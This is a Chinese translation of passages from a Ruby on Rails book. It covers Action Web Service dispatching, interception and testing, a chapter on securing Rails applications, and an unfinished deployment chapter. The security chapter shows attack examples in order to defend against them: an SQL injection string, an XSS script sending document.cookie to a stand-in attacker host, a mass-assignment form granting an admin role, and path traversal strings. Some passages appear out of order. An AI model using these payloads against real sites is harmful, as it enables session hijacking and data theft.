由于分层分发使用一个控制器实现多个 API，它需要为传入的方法调用到实现它们的对象创建映射。我们使用控制器中的`web_service()`声明来进行此映射。

```ruby
class LayeredBackendController < ApplicationController
  web_service_dispatching_mode :layered
  web_service_scaffold :invoke

  web_service :product, ProductService.new
  web_service(:order) { OrderService.new }
end
```

你会注意到我们不再将 API 定义附加到控制器，因为它不再包含 API 方法。还要注意我们调用`web_service()`的两种不同方式。

第一次对`web_service()`的调用直接传递了一个`ProductService`实例。如果我们的 Web 服务不需要与控制器有任何关联，这就足够了。然而，由于实例是在类定义时创建的，它无法访问控制器的实例变量，因此它实际上是在隔离状态下运行的。

第二次对`web_service()`的调用传递了一个块参数。这会将`OrderService`的实例化延迟到请求时。我们给它的块将在控制器实例上下文中求值，因此它可以访问控制器的所有实例变量和方法。如果我们的 Web 服务方法需要使用像`url_for()`这样的辅助方法，这会很有用。

以下是我们的其余代码。首先，是我们产品搜索服务的实现。

```ruby
class ProductService < ActionWebService::Base
  web_service_api ProductApi

  def find_all_products
    Product.find(:all).map{ |product| product.id }
  end

  def find_product_by_id(id)
    Product.find(id)
  end
end
```

这是用于确定产品是否已发货的 API 实现。

```ruby
class OrderApi < ActionWebService::API::Base
  api_method :is_order_shipped,
            :expects => [{:orderid => :int}],
            :returns => [:bool]
end

class OrderService < ActionWebService::Base
  web_service_api OrderApi

  def is_order_shipped(orderid)
    raise "No such order" unless order = Order.find_by_id(orderid)
    !order.shipped_at.nil?
  end
end
```

### 实现委托分发

委托分发的实现与分层分发相同，不同之处在于我们向`web_service_dispatching_mode()`传递`:delegated`而不是`:layered`。

## 22.5 方法调用拦截

为避免在多个方法中重复相同的代码，AWS 允许我们执行调用拦截，允许我们注册在 Web 服务请求之前和/或之后调用的回调。

AWS 拦截的工作方式类似于 Action Pack 过滤器，但包含了通过 Action Pack 过滤器无法获取的关于 Web 服务请求的额外信息，例如方法名称及其解码后的参数。

例如，如果我们只想允许具有可接受 API 密钥的远程调用者访问我们的产品搜索 Web 服务，我们可以为每个方法调用添加一个额外的参数。

```ruby
class ProductAuthApi < ActionWebService::API::Base

  api_method :find_all_products,
             :expects => [{:key=>:string}],
             :returns => [[:int]]

  api_method :find_product_by_id,
             :expects => [{:key=>:string}, {:id=>:int}],
             :returns => [Product]
end
```

然后创建一个调用拦截器来验证此参数，而无需将代码放在每个方法中。

```ruby
class BackendAuthController < ApplicationController
  wsdl_service_name 'Backend'

  web_service_api ProductAuthApi
  web_service_scaffold :invoke

  before_invocation :authenticate

  def find_all_products(key)
    Product.find(:all).map{ |product| product.id }
  end

  def find_product_by_id(key, id)
    Product.find(id)
  end

  protected
    def authenticate(name, args)
```

## 22.6 测试 Web 服务

Action Web Service 与 Rails 测试框架集成，因此我们可以使用标准的 Rails 测试惯例来确保我们的 Web 服务正常工作。

当我们第一次为第一个示例使用`web_service`生成器时，它会在`test/functional/backend_api_test.rb`中为我们创建一个骨架式的功能测试。

这是我们的功能测试，经过修改以传递第 494 页示例中期望的参数。

```ruby
require File.dirname(__FILE__) + '/../test_helper'
require 'backend_controller'

class BackendController
  def rescue_action(e)
    raise e
  end
end

class BackendControllerApiTest < Test::Unit::TestCase
  fixtures :products

  def setup
    @controller = BackendController.new
    @request    = ActionController::TestRequest.new
    @response   = ActionController::TestResponse.new
  end

  def test_find_all_products
    result = invoke :find_all_products
    assert result[0].is_a?(Integer)
  end

  def test_find_product_by_id
    product = invoke :find_product_by_id, 2
    assert_equal 'Product 2', product.description
  end
end
```

这测试了`BackendController`中的 Web 服务方法。它执行一个完整的 Action Pack 请求/响应循环，模拟了我们的 Web 服务在真实世界中被调用的方式。

测试使用`invoke(method_name, *args)`来调用 Web 服务。参数`method_name`是一个标识要调用的方法的符号，`*args`是传递给该方法的零个或多个参数。

`invoke()`方法只能用于测试仅使用直接调度的控制器。对于分层调度和委托调度，我们使用`invoke_layered()`和`invoke_delegated()`来执行测试调用。它们的签名相同。

```ruby
invoke_layered(service_name, method_name, *args)
invoke_delegated(service_name, method_name, *args)
```

在两种情况下，参数`service_name`都指的是在控制器中声明服务时传递给`web_service()`的第一个参数。

```ruby
raise "Not authenticated" unless args[0] == 'secret'
```

与 Action Pack 类似，如果`before`拦截器返回`false`，则该方法永远不会被调用，并且相应的错误消息将作为异常发送回调用方。如果`before`拦截器抛出异常，Web 服务方法的调用也将被中止。

AWS 拦截器使用`before_invocation()`和`after_invocation()`方法定义。

```ruby
before_invocation(interceptor, options={})
after_invocation(interceptor, options={})
```

拦截器可以是一个符号，在这种情况下，它应该指向一个实例方法。它也可以是一个代码块或一个对象实例。当它是一个对象实例时，它应该有一个`intercept()`方法。

实例方法的`before`拦截器在调用时接收两个参数：被拦截方法的方法名及其参数（作为数组传递）。

```ruby
def interceptor(method_name, method_params)
  false
end
```

代码块和对象实例的`before`拦截器接收三个参数。第一个是包含 Web 服务方法的对象，第二个是被拦截的方法名，第三个是其参数（作为数组传递）。

```ruby
before_invocation do |obj, method_name, method_params|
  false
end
```

*`after`拦截器*接收与`before`拦截器相同的初始参数，但在末尾额外接收一个参数。这个参数包含被拦截方法的返回值，因为`after`拦截器在被拦截方法完成后执行。

`before_invocation()`和`after_invocation()`方法支持`:except`和`:only`选项。这些选项接受一个符号数组作为参数，以将拦截限制在指定的方法名上。

```ruby
before_invocation :intercept_before, except => [:some_method]
```

上一个示例将`:intercept_before`拦截器应用于除`:some_method`方法之外的所有 Web 服务方法。

### 外部客户端应用程序（SOAP）

当我们想要在具有 SOAP 协议栈的平台上与外部应用程序进行测试时，我们需要从 AWS 可以生成的 WSDL 来创建客户端。

AWS 生成的 WSDL 文件声明我们的 Web 服务使用 RPC 编码消息，因为这为我们提供了更强的类型化。这也是 AWS 唯一支持的消息类型：它不支持文档/字面量消息。


默认的`Rails config/routes.rb`文件在我们的控制器上创建一个名为`service.wsdl`的路由。要获取该控制器的 WSDL，我们可以下载文件`http://my.app.com/CONTROLLER/service.wsdl`，并使用诸如 Visual Studio 之类的 IDE 或相应的命令行工具（如`wsdl.exe`）来生成客户端类文件。如果我们移除`service.wsdl`路由，控制器中仍然会存在一个名为`wsdl()`的动作。

### 外部客户端应用程序（XML-RPC）

如果我们的 Web 服务使用 XML-RPC，我们必须知道它的端点 URL 是什么，因为 XML-RPC 没有与 WSDL 等价的、包含有关向何处发送协议请求信息的文件。对于直接调度和分层调度，端点 URL 是`http://my.app.com/PATH/TO/CONTROLLER/api`。对于委托调度，端点 URL 是`http://my.app.com/PATH/TO/CONTROLLER/SERVICE_NAME`。在这种情况下，`SERVICE_NAME`指的是在控制器中作为`web_service()`第一个参数给出的名称。

对于这些不同情况使用两个不同的 URL 可能看起来很随意，但这是有原因的。对于委托调度和分层调度，告诉我们应将调用路由到哪个服务对象的信息嵌入在请求中。对于委托调度，我们依赖控制器动作名称来确定它应该去往哪个服务。

请注意，这些 URL 同时用作 SOAP 和 XML-RPC 消息的端点；AWS 能够根据请求确定消息类型。

## 22.7 协议客户端

Action Web Service 包含一些用于访问远程 Web 服务的客户端类。这些类理解 Action Web Service API 定义，因此如果我们拥有远程服务的 API 定义，我们就可以访问该服务，并自动进行类型转换，将数据转换为正确的类型或从正确的类型转换回来。

然而，这些不是通用客户端。如果我们的客户端应用程序与服务器耦合不紧，使用 Ruby 原生的 SOAP 和 XML-RPC 客户端可能更有意义。

如果我们想使用 AWS 客户端从控制器内部访问远程 Web 服务 API，请使用`web_client_api()`辅助函数。

```ruby
class MyController < ApplicationController
  web_client_api :product,
                 :soap,
                 "http://my.app.com/backend/api"

  def list
    @products = product.find_all_products.map do |id|
      product.find_product_by_id(id)
    end
  end
end
```

`web_client_api`声明在控制器中创建一个名为`product()`的受保护方法。这使用了我们在第一个示例中创建的`ProductApi`类。调用`product()`方法返回一个客户端对象，该对象具有`ProductApi`的所有可供执行的方法。

我们也可以通过为相关协议（`ActionWebService::Client::Soap`或`ActionWebService::Client::XmlRpc`）创建客户端实例来直接调用 Web 服务 API。然后我们就可以在这个实例上调用 API 方法。

```ruby
shop = ActionWebService::Client::Soap.new(ProductApi,
                                         "http://my.app.com/backend/api")
product = shop.find_product_by_id(5)
```

图 22.4：AWS 生成的 WSDL

```xml
<?xml version="1.0" encoding="UTF-8"?>
<definitions name="Backend" xmlns:typens="urn:ActionWebService" . . .
  <types>
    <xsd:schema xmlns="http://www.w3.org/2001/XMLSchema" . . .
      <xsd:complexType name="Product">
        <xsd:all>
          <xsd:element name="id" type="xsd:int"/>
          <xsd:element name="title" type="xsd:string"/>
          <xsd:element name="description" type="xsd:string"/>
          <xsd:element name="image_url" type="xsd:string"/>
          <xsd:element name="price" type="xsd:double"/>
          <xsd:element name="date_available" type="xsd:dateTime"/>
        </xsd:all>
      </xsd:complexType>
      <xsd:complexType name="IntegerArray">
        <xsd:complexContent>
          <xsd:restriction base="soapenc:Array">
            <xsd:attribute wsdl:arrayType="xsd:int[]" ref="soapenc:arrayType"/>
          </xsd:restriction>
        </xsd:complexContent>
      </xsd:complexType>
    </xsd:schema>
  </types>
  <message name="FindAllProducts">
  </message>
  <message name="FindAllProductsResponse">
    <part name="return" type="typens:IntegerArray"/>
  </message>
  <message name="FindProductById">
    <part name="param0" type="xsd:int"/>
  </message>
  . . .
```

## 第 23 章：保障你的 Rails 应用程序安全

Web 上的应用程序持续遭受攻击。Rails 应用程序也不能幸免于这场猛攻。

安全是一个宏大的话题——足以成为整本书的主题。我们无法在仅仅一章中详尽探讨。在将应用程序部署到令人生畏、充满敌意的互联网之前，你可能需要做一些研究。一个很好的起点是阅读开放 Web 应用程序安全项目（OWASP）（`http://www.owasp.org/`）的资料，这是一个志愿者团体，他们编写有关安全的“免费、专业级、开源的文档、工具和标准”。务必查看他们关于 Web 应用程序十大安全问题的清单。遵循一些基本准则，可以大大提升你的 Rails 应用程序的安全性。

本章改编自 Andreas Schwarz 的在线手册《Rails 安全》，手册地址为`http://manuals.rubyonrails.com/read/book/8`。

## 23.1 SQL 注入

SQL 注入是许多 Web 应用程序中头号安全问题。那么，什么是 SQL 注入？它是如何工作的？

假设一个 Web 应用程序从不可信的来源（如 Web 表单字段中的数据）获取字符串，并将这些字符串直接用在 SQL 语句中。如果应用程序没有正确地引用任何 SQL 元字符（例如反斜杠或单引号），攻击者就可以控制在服务器上执行的 SQL，使其返回敏感数据、创建无效数据的记录，甚至执行任意的 SQL 语句。

想象一个具有搜索功能的 Web 邮件系统。用户可以在表单上输入一个字符串，应用程序会列出所有以此字符串为邮件主题的电子邮件。在我们的应用程序模型中，可能有一个如下的查询：

```ruby
Email.find(:all,
          :conditions => "owner_id = 123 AND subject = '#{params[:subject]}'")
```

这是危险的。想象一个恶意用户手动发送字符串`" OR 1 --"`作为`subject`参数。在 Rails 将其替换到为`find()`方法生成的 SQL 之后，最终的语句将如下所示。¹

```sql
select * from emails where owner_id = 123 AND subject = '' OR 1 --'
```

`OR 1`条件永远为真。两个减号开始一个 SQL 注释；其后的所有内容都将被忽略。我们的恶意用户将获得数据库中所有电子邮件的列表。²

### 防范 SQL 注入

如果你只使用预定义的 ActiveRecord 函数（例如`attributes()`、`save()`和`find()`），并且在调用这些方法时没有添加自己的条件、限制或 SQL，Active Record 会负责为你引用数据中的任何危险字符。例如，以下调用可以防止 SQL 注入攻击：

```ruby
order = Order.find(params[:id])
```

尽管`id`值来自传入的请求，但`find()`方法负责引用元字符。恶意用户最多只能引发一个“未找到”异常。

但如果你的调用确实包含了条件、限制或 SQL，并且这些数据中的任何一部分来自外部来源（即使是间接的），你就必须确保这些外部数据不包含任何 SQL 元字符。一些潜在不安全的查询包括：

```ruby
Email.find(:all,
          :conditions => "owner_id = 123 AND subject = '#{params[:subject]}'")
```

```ruby
Users.find(:all,
          :conditions => "name like '%#{session[:user].name}%'")
```

```ruby
Orders.find(:all,
          :conditions => "qty > 5",
          :limit      => #{params[:page_size]})
```

防范这些 SQL 注入攻击的正确方法是，永远不要使用常规的 Ruby`#{...}`机制将任何内容替换到 SQL 语句中。相反，应使用 Rails 的绑定变量功能。例如，你可以将 Web 邮件搜索查询重写如下：

```ruby
subject = params[:subject]
Email.find(:all,
         :conditions => ["owner_id = 123 AND subject = ?", subject])
```

如果`find()`的参数是一个数组而不是字符串，Active Record 将用第二个、第三个和第四个（依此类推）元素的值替换第一个元素中的每个`?`占位符。如果元素是字符串，它会添加引号，并引用所有对 Email 模型使用的数据库适配器具有特殊意义的字符。

除了使用问号和值数组，你也可以使用命名绑定值并传入一个哈希。我们将在第 264 页开始讨论这两种形式的占位符。

### 将查询提取到模型方法中

如果你需要在代码的多个地方执行具有类似选项的查询，你应该在模型类中创建一个封装该查询的方法。例如，你应用程序中的一个常见查询可能是：

```ruby
emails = Email.find(:all,
                     :conditions => ["owner_id = ? and read='NO'", owner.id])
```

更好的做法可能是将此查询封装到 Email 模型的一个类方法中：

```ruby
class Email < ActiveRecord::Base
  def self.find_unread_for_owner(owner)
    find(:all, :conditions => ["owner_id = ? and read='NO'", owner.id])
  end
  # ...
end
```

在应用程序的其余部分，无论何时需要查找任何未读电子邮件，你都可以调用此方法：

```ruby
emails = Email.find_unread_for_owner(owner)
```

如果你这样编写代码，就无需担心元字符——所有的安全顾虑都被封装在模型内部的较低层次。你应该确保这种模型方法不会破坏任何东西，即使使用不受信任的参数调用。

还请记住，Rails 会自动为模型中的所有属性生成查找器方法，这些查找器可以防止 SQL 注入攻击。如果你想搜索具有给定所有者和主题的电子邮件，可以简单地使用 Rails 自动生成的方法：

```ruby
list = Email.find_all_by_owner_id_and_subject(owner.id, subject)
```

## 23.2 跨站脚本（CSS/XSS）

许多 Web 应用程序使用会话 cookie 来跟踪用户的请求。Cookie 用于标识请求并将其与会话数据（Rails 中的`session`）关联起来。通常，此会话数据包含对当前登录用户的引用。

跨站脚本是一种从网站的其他访问者那里“窃取”cookie 的技术，从而可能窃取该人的登录凭据。

### 一次典型的攻击

任何显示来自应用程序外部数据的站点都容易受到 XSS 攻击，除非应用程序仔细过滤这些数据。有时攻击路径复杂而微妙。例如，考虑一个允许用户为网站管理员留下评论的购物应用程序。网站上的一个表单捕获此评论文本，该文本被存储在数据库中。

一段时间后，网站管理员查看了所有这些评论。当天晚些时候，攻击者获得了应用程序的管理员权限并窃取了所有信用卡号。

这次攻击是如何奏效的？它始于捕获用户评论的表单。攻击者构造了一小段 JavaScript 并将其作为评论输入：

```html
<script>
    document.location='http://happyhacker.site/capture/' + document.cookie
</script>
```

当执行时，此脚本将连接到`happyhacker.site`主机，调用那里的`capture.cgi`应用程序，并将与该用户关联的 cookie 传递给它。然后，攻击者可以使用此 cookie 来冒充该用户。

¹实际使用的攻击取决于服务器上的数据库。这些示例基于 MySQL。

²当然，在真实的应用程序中，所有者 ID 是动态插入的；此处省略是为了保持示例简单。

当前主机。现在，如果这个脚本在一个普通网页上执行，并不会造成安全漏洞，因为它只捕获与提供该页面的主机关联的 Cookie，而该主机本来就可以访问这个 Cookie。

但是，通过将这个 Cookie 植入评论表单，攻击者就向我们的系统植入了一个定时炸弹。当商店管理员要求应用程序显示收到的客户评论时，应用程序可能会执行一个类似这样的 Rails 模板：

```erb
<div class="comment">
    <%= order.comment %>
</div>
```

攻击者的 JavaScript 就被插入到了管理员查看的页面中。当这个页面显示时，浏览器会执行该脚本，并将`document.cookie`发送到攻击者的站点。然而，这次发送的 Cookie 是与我们自己应用程序关联的 Cookie（因为是我们的应用程序将页面发送给了浏览器）。攻击者现在获取了 Cookie 中的信息，并可以利用它来冒充商店管理员。

### 保护你的应用免受 XSS 攻击

跨站脚本攻击之所以奏效，是因为攻击者能够将自己的 JavaScript 插入到显示时带有关联会话 Cookie 的页面中。幸运的是，这类攻击很容易预防——永远不要将任何来自外部的内容直接显示在你生成的页面上。务必在网站中渲染的每个字符串中，将 HTML 元字符（`<`和`>`）转换为等效的 HTML 实体（`&lt;`和`&gt;`）。这将确保，无论攻击者在表单中输入什么文本或附加到 URL 上，浏览器总是会将其渲染为纯文本，而永远不会解释任何 HTML 标签。这始终是个好主意，因为用户可能会不小心留下未关闭的标签而搞乱你的布局。如果你使用 Textile 或 Markdown 等标记语言，请格外小心，因为它们允许用户向你的页面添加 HTML 片段。

Rails 提供了辅助方法`h(string)`（是`html_escape()`的别名），在 Rails 视图中执行的就是这种转义。在易受攻击的商店应用中，编写评论查看器的人本可以通过使用以下方式来消除这个问题：

```erb
<div class="comment">
    <%= h(order.comment) %>
</div>
```

请养成对视图中渲染的任何变量使用`h()`的习惯，即使你认为可以信任它来自可靠的来源。当你阅读他人的源码时，也要对`h()`方法的使用保持警惕——人们在使用`h()`时往往不加括号，而且通常很难发现。

有时你需要将包含 HTML 的字符串替换到模板中。在这种情况下，`sanitize()`方法会移除许多潜在的危险结构。但是，你最好检查一下`sanitize()`是否为你提供了完全的保护：新的 HTML 威胁似乎每周都会出现。

> 脚注：这些来自外部的内容可以作为 POST 请求关联的数据到达（例如，来自表单）。但它也可以作为 GET 请求中的参数到达。例如，如果你允许用户向你传递参数来添加到你显示的页面中，他们就可以在这些页面中添加`<script>`标签。

> **Joe 提问……**


> **为什么不直接剥离`<script>`标签呢？**

> 如果问题在于人们可以在我们显示的内容中注入`<script>`标签，你可能认为最简单的解决方案是一些扫描并移除这些标签的代码？

> 不幸的是，这不会奏效。浏览器现在会在数量惊人的上下文中执行JavaScript（例如，当调用`onclick=`处理程序或在``标签的`src=`属性中时）。而且问题不仅限于JavaScript——允许人们在内容中包含外部链接可能会让他们将你的站点用于恶意目的。你可以尝试检测所有这些情况，但HTML转义方法更安全，并且在HTML演变过程中不太可能失效。

### 使用回声服务的XSS攻击

回声服务是运行在TCP端口7上的一个服务，它会将你发送给它的所有内容返回。在较旧的Debian版本中，它默认是活动的。这是一个安全隐患。

想象一下，运行网站`target.domain`的服务器也运行着一个回声服务。攻击者在他自己的网站上创建了一个如下所示的表单：

```html
<form action="http://target.domain:7/" method="post">
  <input type="hidden" name="code" value="some_javascript_code_here" />
  <input type="submit" />
</form>
```

攻击者找到了吸引使用`target.domain`应用程序的人访问他自己的表单的方法。这些人很可能在他们的浏览器中拥有来自`target.domain`的Cookie。如果这些人提交了攻击者的表单，隐藏字段的内容就会被发送到`target.domain`端口7上的回声服务器。回声服务器忠实地将这些内容回显给浏览器。如果浏览器决定将返回的数据作为HTML显示（Internet Explorer的某些版本会这样做），它将执行JavaScript代码。因为源域是`target.domain`，所以会话Cookie对脚本是可用的。

这实际上不是一个Rails开发问题；它在客户端工作。然而，为了降低你的应用程序遭受成功攻击的可能性，你应该停用Web服务器上的任何回声服务。仅此一项并不能提供完全的安全性，因为还有其他服务（如FTP和POP3）也可以被使用，而不仅仅是回声服务器。

### 23.3 避免会话固定攻击

如果你知道某人的会话ID，那么你就可以创建使用该ID的HTTP请求。当Rails收到这些请求时，它会认为它们与原始用户关联，因此会让你执行该用户可以执行的任何操作。

Rails在很大程度上防止了人们猜测他人的会话ID，因为它使用安全的哈希函数来构建这些ID。实际上它们是非常大的随机数。然而，有一些方法可以达到几乎相同的效果。

在会话固定攻击中，坏人从我们的应用程序获取一个有效的会话ID，然后以某种方式将其传递给第三方，使得第三方将使用这个相同的会话。如果那个人使用该会话登录我们的应用程序，坏人（也拥有该会话ID）也将被登录。

有几种技术可以帮助消除会话固定攻击。首先，你可能会发现，在会话数据中保留创建该会话的请求的IP地址会有所帮助。如果IP地址发生变化，你可以取消该会话。这会惩罚那些在网络上移动笔记本电脑的用户，以及IP地址在PPPOE租约到期时会改变的家庭用户。

其次，你应该考虑每次有人登录时都创建一个新的会话。这样，合法用户将继续使用该应用程序，而坏人则会留下一个孤立的会话ID。

> 脚注：ACROS Security的一份文档详细描述了会话固定攻击，可在`http://www.secinf.net/uplarticle/11/session_fixation.pdf`获取。

### 23.4 直接从表单参数创建记录

假设你想实现一个用户注册系统。你的`users`表如下所示：

```sql
create table users (
  id         integer primary key,
  name       varchar(20) not null,
  password   varchar(20) not null,
  role       varchar(20) not null  default "user",
  approved   integer     not null  default 0
);

create unique index users_name_unique on users(name);
```

`role`列包含`admin`、`moderator`或`user`之一，它定义了该用户的权限。一旦管理员批准了该用户对系统的访问，`approved`列就被设置为1。

相应的注册表单如下所示：

```html
<form method="post" action="http://website.domain/user/register">
  <input type="text" name="user[name]" />
  <input type="text" name="user[password]" />
</form>
```

在我们的应用程序控制器中，从表单数据创建用户对象最简单的方法是将表单参数直接传递给`User`模型的`create()`方法。

```ruby
def register
  User.create(params[:user])
end
```

但是，如果有人决定将注册表单保存到磁盘，并通过添加几个字段来玩弄，会发生什么呢？也许他们会手动提交一个如下所示的网页：

```html
<form method="post" action="http://website.domain/user/register">
  <input type="text" name="user[name]" />
  <input type="text" name="user[password]" />
  <input type="text" name="user[role]"      value="admin" />
</form>
```

## 23.5 不要信任 ID 参数

当我们首次讨论检索数据时，介绍了`find()`方法，该方法根据主键值检索一行数据。此方法接受一个可选的哈希参数，可用于对返回的行施加额外约束。

考虑到主键在表中唯一标识一行，为什么在使用该键获取行时还要应用额外的搜索条件？事实证明，这是一种有用的安全措施。

也许我们的应用程序允许客户查看其订单列表。如果客户点击列表中的某个订单，应用程序会显示订单详情——该点击会调用`order/show/nnn`操作，其中`nnn`是订单id。

攻击者可能会注意到这个URL，并尝试通过手动输入不同的订单id来查看其他客户的订单。我们可以通过在操作中使用受约束的`find()`来防止这种情况。在此示例中，我们通过附加条件限定搜索，即订单的所有者必须与当前用户匹配。如果没有匹配的订单，将抛出一个异常，我们通过重新显示索引页来处理它。

```ruby
def show
  id       = params[:id]
  user_id  = session[:user_id] || -1
  @order   = Order.find(id, :conditions => [ "user_id = ?", user_id])
rescue
  redirect_to :action => "index"
end
```

此问题不仅限于`find()`方法。基于从表单返回的id（或ids）删除或销毁行的操作同样危险。不幸的是，`delete()`和`destroy()`都不支持额外的`:conditions`参数。你需要自己进行检查，可以先读取该行以检查所有权，或者构建一个SQL where子句并将其传递给`delete_all()`或`destroy_all()`。

此问题的另一种解决方案是在应用程序中使用关联。如果我们声明一个用户`has_many`个订单，那么我们可以使用如下代码将搜索范围限制为仅查找该用户的订单：

```ruby
user.orders.find(params[:id])
```

## 23.6 不要暴露控制器方法

操作仅仅是控制器中的公共方法。这意味着，如果你不注意，你可能会将本意仅在应用程序内部调用的方法作为操作暴露出来。

有时一个操作被用作辅助方法，但从未打算被终端用户直接调用。例如，电子邮件程序可能会显示一个列表，显示特定用户所有邮件的主题行。列表中每个条目旁边都有一个<u>阅读邮件</u>按钮。这些按钮通过如下URL链接回操作：

`http://website.domain/email/read/1357`

在此URL中，字符串`1357`是要阅读的电子邮件的id。

当你设计这种类型的应用程序时，很容易忘记`read()`方法是公开暴露的。在你的脑海中，`read()`被调用的唯一方式是用户从电子邮件列表中点击链接。

然而，一个喜欢冒险的用户可能会查看该URL，并想知道如果他们手动输入它，并在末尾给出不同的数字会发生什么。除非你的应用程序在编写时考虑了安全性，否则这些用户完全有可能能够阅读他人的电子邮件。

`read()`操作的一个不正确实现是：

```ruby
def read
  @email = Email.find(params[:id])
end
```

此方法根据id返回一封电子邮件，而不管该电子邮件的所有者是谁。一个可能的解决方案是添加所有权检查。

```ruby
def read
  @email = Email.find(params[:id])
  unless @email.owner_id == session[:user_id]
    flash[:notice] = "邮件未找到"
    redirect_to(:action => "index")
  end
end
```

> （注意错误消息是如何故意含糊不清的；如果我们说“这封邮件属于其他人”，我们就是在泄露我们本不该分享的信息。）

比在控制器中进行测试更好的做法是将检查委托给模型。这样，我们可以安排事情，使得我们甚至永远不会将他人的电子邮件读入内存。我们的操作方法将变为：

```ruby
def read
  @email = Email.find_by_id_and_user(params[:id], session[:user_id])
  unless @email
    flash[:notice] = "邮件未找到"
    redirect_to(:action => "index")
  end
end
```

这使用了一个动态生成的查找器方法，仅当电子邮件属于当前用户时才按id返回该电子邮件。

请记住，你所有的公共操作都可以直接从浏览器调用，或通过手工制作的HTML调用。确保这些方法在需要时验证访问权限。

## 23.7 文件上传

一些面向社区的网站允许其参与者上传文件供其他参与者下载。除非你小心，否则这些上传的文件可能被用来攻击你的网站。

例如，想象有人上传一个文件名以`.rhtml`或`.cgi`（或任何其他与你网站上可执行内容相关联的扩展名）结尾的文件。如果你在下载页面直接链接到这些文件，当文件被选中时，你的网络服务器可能会试图执行其内容，而不是简单地下载它。这将允许攻击者在你的服务器上运行任意代码。

解决方案是永远不要允许用户上传随后可以直接被其他用户访问的文件。相反，将文件上传到你的网络服务器无法访问的目录（用Apache的术语来说，在`DocumentRoot`之外）。然后提供一个Rails操作，允许人们查看这些文件。在此操作内，确保你：

- 验证请求中的名称是一个简单、有效的文件名，与目录中的现有文件或表中的行匹配。不要接受诸如`../../etc/passwd`之类的文件名（参见边栏*输入验证很困难*）。你甚至可能希望将上传的文件存储在数据库表中，并使用id而不是名称来引用它们。
- 当你下载一个将在浏览器中显示的文件时，确保转义它包含的任何HTML序列，以消除XSS攻击的可能性。如果你允许下载二进制文件，请确保设置了适当的`Content-type` HTTP头，以确保该文件不会意外地在浏览器中显示。

Johannes Brodwall 在评论本章时写道：

当你验证输入时，记住以下几点很重要。

*使用白名单进行验证。* 有许多方法可以编码点和斜杠，这些编码可能逃避你的验证，但会被底层系统解释。例如，`../`、`..\`、`%2e%2e%2f`、`%2e%2e%5c`和`..%c0%af`（Unicode）可能让你提升一个目录层级。接受非常小的字符集（尝试以`[a-zA-Z][a-zA-Z0-9_]*`开始）。

*不要试图通过替换、剥离等从奇怪的路径中恢复。* 例如，如果你剥离掉字符串`../`，一个恶意的输入如`....//`仍然会通过。如果有什么奇怪的事情发生，有人正试图耍小聪明。只需用简短、无信息的消息将他们踢出去，例如“检测到入侵尝试。事件已记录。”

我经常检查`dirname(full_file_name_from_user)`是否与预期的目录相同。这样我就知道文件名是卫生的。

从第366页开始的描述说明了如何从Rails应用程序下载文件，而从第425页开始的关于上传文件的部分展示了一个将图像文件上传到数据库表并提供操作来显示它们的示例。

## 23.8 不要缓存经过身份验证的页面

请记住，页面缓存会绕过应用程序中的任何安全过滤器。如果需要根据会话信息控制访问，请使用操作或片段缓存。有关更多信息，请参阅第390页的第18.8节*缓存，第一部分*，以及第442页的第19.10节*缓存，第二部分*。

## 23.9 知道它有效

当我们想要确保编写的代码完成我们想要的事情时，我们会编写测试。当我们想要确保代码

在验证新应用程序的安全性时，请毫不犹豫地采取同样的做法。使用Rails功能测试来模拟潜在的用户攻击。如果你在代码中发现了安全漏洞，请编写一个测试来确保一旦修复，它就不会在将来以某种方式再次出现。

与此同时，请记住，测试只能检查到你想到的事情。真正会让你栽跟头的，往往是别人想到的事情。

# 第24章

## 部署与生产环境

（本章仍在编写中 —— Dave）

部署本应是应用程序生命周期中一个值得高兴的时刻。这时，你将精心编写和在笔记本电脑上测试过的代码上传到服务器，以便其他人可以使用。当然，最初的几次部署可能只面向有限的受众，但到了某个时候，你需要上线并让你的应用程序面向更广泛的受众，甚至全世界。与Rails的其他部分使得许多问题变得简单相比，部署你的应用程序可能是你将面临的最困难的任务之一。这并不是说它比在其它环境中部署应用程序更糟——实际上并非如此。但与你一直以来处理其他所有事情的轻松程度相比，这需要更多的思考和准备。它是Rails中更偏向DIY（自己动手）的部分之一。

实际上，部署比Rails的其他部分更DIY有其充分的理由。每个部署的情况都是不同的。如果你有充足的条件，可以将应用部署到一台专用的、只用于运行你的应用的服务器上，那么你可以采用最直接的组件组合。然而，如果你需要融入现有环境，或者需要与多个其他应用程序共享同一台Web服务器运行，那么复杂性就会增加。不过，好消息是你不需要从一开始就将第一次部署设置到完整的生产环境机器集群中。实际上，你应该在开发过程的早期就开始进行第一次部署，完成这部分工作，然后随着需求的增长，再考虑部署到越来越健壮的环境中。

### 24.1 开发环境部署

在你决定向世界展示你的应用程序之前很久——事实上，从你有不止一个人参与开发或想向他人展示它的那一刻起——你就应该设置好第一个部署环境。这次部署的目的不是为了准备好每天处理数十万个请求。它的目的是让你开始遵循部署应用程序的模式，并习惯于代码、测试、提交然后部署的节奏，在你真正部署应用程序后，你将一直遵循这个节奏。毕竟，Rails是为高度敏捷的开发风格而设计的，这意味着让某些东西运行起来。你应该让它运行在某个他们随时可以访问的地方，以便查看进展情况并给你反馈，而不是让你的老板或客户在你的笔记本电脑上运行你的应用程序。

这个环境可以很简单。一台旧的Linux机器。一台备用的Mac。只要它有足够的能力运行你的数据库和应用程序就行，不能更多。事实上，如果它性能不是很好，你会更快地看到潜在的性能问题。

对于这个环境，我们将描述一个简单的解决方案，将你的应用程序部署到服务器上并运行`lighty`或`webrick`。`SwitchTower`。也许只需运行自带的`lighty.conf`？或者描述使用`config`目录中一个单独的配置文件，该文件用于你的预发布服务器。

WEBrick与Lighty的比较。优缺点。

别忘了数据库。

`SwitchTower`本可以单独成节，但在你想要真正花哨之前，实在没什么可说的，所以我想我只谈谈用它来设置部署，让它保持在有点神奇的范畴。

数据库迁移的部署。

尽管这是一个“开发”服务器，你也应该在生产模式下运行它。Rails在开发模式下长时间运行时对内存不太友好，而且由于这个服务器可能随时被你的老板或客户访问，你确实需要确保它没有因为`breakpointer`卡住而挂掉。底线：在本地机器上使用开发模式，在任何部署的服务器上使用生产模式。

### 24.2 初始生产环境部署

这里会变得更难一些。当你需要部署给第一个客户时，你一直用于开发的预发布服务器就不是正确的部署场所了。实际上，你应该保留你的预发布服务器，并部署到一台生产就绪的服务器上。这可能是一台共享的Web服务器，上面还有其他应用程序，或者是一台专用的机器。

- 选择Web服务器。Lighty与Apache。优缺点。
- 如果你有条件，我们的建议是：Lighttpd。
- 使用Lighty进行生产环境应用程序的初始设置和配置。
- FastCGI与SCGI。
- 服务器管理的Ruby进程与外部管理的进程。
- 补充说明：保持运行。Mac OS X上的`launchd`。其他服务器上的其他技术。

### 24.3 与现有环境和谐共处

